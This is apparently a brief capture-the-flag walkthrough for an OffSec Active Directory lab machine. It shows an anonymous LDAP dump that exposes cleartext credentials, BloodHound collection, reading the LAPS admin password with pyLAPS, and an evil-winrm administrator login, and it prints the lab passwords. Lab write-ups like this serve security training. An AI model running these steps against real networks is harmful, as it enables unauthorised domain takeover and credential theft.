






Access as fmcsorley
Port 80 is open but its just a default IIS landing page with nothing interesting.
ldap search actually has cleartext creds
ldapsearch -H ldap://192.168.248.122 -x -b 'DC=hutch,DC=offsec' > ldap-anonymous.out
fmcsorley:CrabSharkJellyfish192

Access as Administrator
We can grab the bloodhound data with the command below
bloodhound-python -u fmcsorley -d hutch.offsec -c All -ns 192.168.248.122
Our user can read the LAPS password
Abuse info

https://github.com/p0dalirius/pyLAPS
Getting the local admin password

administrator:3bK+%$(+rosz2@
evil-winrm -i 192.168.248.122 -u administrator -p '3bK+%$(+rosz2@'
Now we can get the user and admin flag


This machine was rated as “Hard" however it was really really easy.
